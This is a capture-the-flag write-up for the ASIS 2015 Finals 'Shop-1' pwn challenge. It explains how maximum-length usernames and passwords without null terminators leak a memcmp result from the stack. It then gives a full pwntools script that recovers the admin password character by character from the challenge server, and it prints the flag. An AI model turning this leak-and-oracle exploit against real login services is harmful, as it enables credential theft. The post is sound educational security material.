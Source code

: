 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Shop-1 (pwn100)"
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


The main vulnerability for getting the admin password is that if you send in a maximum length username (32 bytes) and password (64 bytes) then no string terminating null character was written. Also, usernames and passwords were checked with memcpy and exact length instead of strcpy.

As the program prints out the logged in username this leads to leaking out the next value in the stack: the memcmp result of the admin password.

{% highlight c %}
char username[32]; // [sp+20h] [bp-70h]@3
char password[64]; // [sp+40h] [bp-50h]@3
int memcmpResult; // [sp+80h] [bp-10h]@5
{% endhighlight %}

So the attack was basically: 
 - try to login with admin and the password you leaked so far (empty at first) plus "~" (0x7e)
    - although this will lead to failed login, the memcpy result won't be cleared
    - I am using 0x7e because it is the last readable ASCII character and comparison with password will give smaller results
 - try to login with username "guest" + "A"*(32-5) and password "guest" + "A"*(64-5)
 - read the leaked value, this will be the positive difference between "~" and the next character from the password
 - logout and try again, until you found the password and can login as admin :)
 
The admin password (=flag):
{% highlight text %}
ASIS{304b0f16eb430391c6c86ab0f3294211}
{% endhighlight %}

### Exploit code

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re

adminPass = ""
foundPass = False

r = remote('185.106.120.220', 1337)

def getResult(currPass):
    global foundPass
    r.recvuntil("Username:")
    password = "guest"+"A"*(64-5)
    r.send("admin\n"+currPass+"\nguest"+"A"*(32-5)+"\n"+password+"\n8\n")
    if not "Unknown username" in r.recvline():
        foundPass = True
        return "x"

    r.recvuntil("in as guest")
    result = r.recvline()[:-1].split(password)[1]
    return result

chars = [chr(x) for x in xrange(32,127)]
print "Chars = %s" % chars

for i in xrange(45):
    result = getResult(adminPass + "~")
    if foundPass:
        break
    nextChar = chr(ord("~") - ord(result[0]))
    adminPass += nextChar
    print "found char = %s => %s (calc)" % (nextChar, adminPass)

if foundPass:
    print "Admin password = %s" % adminPass
else:
    print "Admin password not found :("
{% endhighlight %}